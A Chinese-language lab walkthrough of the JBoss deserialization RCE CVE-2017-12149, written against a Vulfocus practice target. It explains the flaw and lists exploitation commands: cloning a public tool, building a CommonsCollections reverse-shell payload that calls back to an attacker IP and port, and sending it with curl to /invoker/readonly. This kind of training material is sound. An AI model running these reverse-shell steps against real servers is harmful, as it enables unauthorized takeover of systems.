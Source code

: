 <h1>CVE-2017-12149</h1>



<h2>一、漏洞描述</h2>

<p>近期，互联网爆出JBOSSApplication Server反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞细节和验证代码已公开，近期被不法分子利用出现大规模攻击尝试的可能性较大。漏洞危害程度为高危(High)。</p>



<h2>二、影响版本</h2>

<p>漏洞影响5.x和6.x版本的JBOSSAS</p>



<h2>三、漏洞原理</h2>

<p>JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用，2006年，JBoss被Redhat公司收购。2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。</p>



<h2>四、利用流程</h2>

<p>1、启动Vulfocus</p>

![img](./1.png)

<p>2、访问靶场页面</p>

![img](./2.png)

<p>3、访问可能存在漏洞的页面     http://10.10.11.20:43209/invoker/readonly</p>

![img](./3.png)

<p>4、使用kali拉取利用工具</p>

<p>git clone https://github.com/joaomatosf/JavaDeserH2HC</p>

![img](./4.png)

<p>5、在Kali中下载执行生成二进制的payload文件</p>

<p>javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java</p>

![img](./5.png)

<p>6、修改接受shell的主机IP和端口</p>

<p>java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 10.10.11.244:8989</p>

![img](./6.png)

<p>7、进行监听</p>

![img](./7.png)

<p>8、向服务器发送攻击Payload</p>

<p>curl http://10.10.11.20:43209/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser</p>

![img](./8.png)

<p>9、获取flag</p>

![img](./9.png)